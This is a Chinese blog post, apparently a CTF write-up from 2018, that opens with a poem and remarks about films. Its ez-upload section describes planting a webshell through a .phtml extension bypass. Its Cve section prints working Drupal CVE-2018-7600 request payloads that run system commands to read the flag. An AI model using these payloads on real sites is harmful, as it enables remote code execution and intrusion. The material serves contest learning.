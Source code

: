 ```yaml
---
title: 双月赛诶嘿嘿
date: 2018-12-16 18:51:04
tags:
thumbnail: "https://s1.ax1x.com/2018/12/16/FddCYF.jpg"
---
```


> 再也读不到传世的檄文，只剩下廊柱上龙飞凤舞的楹联。
>
> 再也找不见慷慨的遗恨，只剩下几座既可凭吊也可休息的亭台。
>
> 再也不去期待历史的震颤，只有凛然安坐着的万古湖山。

本来为了去看无敌破坏王2特意看了1结果看的很悲伤。虽然是HE可是要不是发生了这一些事rafu根本不会受到证明。后面他去敲曼妥思的时候真的太虐了。然后小女孩瞬移过去的时候又是感动嘤嘤嘤。然后2因为影院只有中文版了也没看成QAQ

所以这两天只好做这个。。双月赛惹x（虽然中间还看了n集越狱和一出好戏。。人类真的可啪。唉

#### ez-upload

修改后缀为phtml，传马连接

（upload目录直接可以看，看看别人传的什么能解析就好了

结果hint嗦是.htaccess，非预期惹23333

#### Cve\~~~~~

题目这么明显了找cve呗

[drupal7~8 CVE-2018-7600](https://www.jianshu.com/p/7c410db788ed) （这个貌似是以前xman的小伙伴，差距啊orzzzz

```
POST /?q=user/password&name[%23post_render][]=system&name[%23markup]=cat%20../../../../../flag&name[%23type]=markup HTTP/1.1

form_id=user_pass&_triggering_element_name=name
```

[![Fd2NWt.md.png](https://s1.ax1x.com/2018/12/16/Fd2NWt.md.png)](https://imgchr.com/i/Fd2NWt)

在相应中找到form_build_id的值然后继续请求

```
POST /?q=file/ajax/name/%23value/form-qpnIm9H756D90crsuz61R9WE5xD4nsk6rqzUJ5cGRNU HTTP/1.1

form_build_id=form-qpnIm9H756D90crsuz61R9WE5xD4nsk6rqzUJ5cGRNU
```

![Fd2wy8.png](https://s1.ax1x.com/2018/12/16/Fd2wy8.png)

得到flag

#### secret-system

慕测省赛的题。。
